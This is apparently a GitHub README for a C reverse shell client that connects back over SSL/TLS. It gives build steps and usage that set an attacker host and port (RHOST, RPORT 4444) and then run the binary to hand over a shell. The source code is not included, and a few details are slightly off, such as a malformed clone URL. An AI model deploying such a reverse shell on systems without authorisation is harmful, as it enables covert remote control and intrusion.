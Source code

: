 # Reverse Shell Client

A simple reverse shell client written in C that connects to a specified remote server over an SSL/TLS connection. 
It can be used for secure remote shell access to a target machine. 

## Features

- **Secure Connection**: Utilizes SSL/TLS for encrypted communication between client and server.
- **Cross-Protocol Support**: Works with both IPv4 and IPv6.
- **Timeout Handling**: Configurable socket timeout to handle connection issues.
- **Signal Handling**: Exits on interrupt signals.
- **Dynamic Shell Spawning**: Launches a shell on the remote server upon successful connection.

## Prerequisites

- **OpenSSL**: Required for SSL/TLS functionality.
- **GCC**: For compiling the C source code.
- **Make**: Optional, for building with a Makefile.

## Installation

1. **Clone the Repository**:
   ```bash
	git clone git@github.com/Umair-khurshid/Reverse-Shell-Client.git
	cd Reverse-Shell-Client
   ```
   
2. **Install Dependencies (for Ubuntu/Debian)**:

```bash
	sudo apt-get update
	sudo apt-get install libssl-dev gcc make
```

3. **Compile the Program**:
```bash
	gcc -Wall -o RemoteShellClient main.c -lssl -lcrypto
```

## Usage
1. **Set Environment Variables**:

```bash
export RHOST="192.168.1.100"  # Replace with the target IP address or domain
export RPORT="4444"           # Replace with the target port
```
2. **Run the Program**:

```bash
./RemoteShellClient
```


## Troubleshooting
- **Connection Issues**: Ensure the remote server is accessible and listening on the specified port.
- **SSL/TLS Errors**: Verify that OpenSSL is correctly installed and configured on both the client and server.
- **Compilation Errors**: Ensure all dependencies are installed and that you are using the correct version of GCC and OpenSSL.


## Disclaimer
_This tool is intended for educational purposes and ethical use only. Unauthorized use or deployment on networks or systems without explicit permission is illegal and unethical. Always ensure you have proper authorization before using this tool._



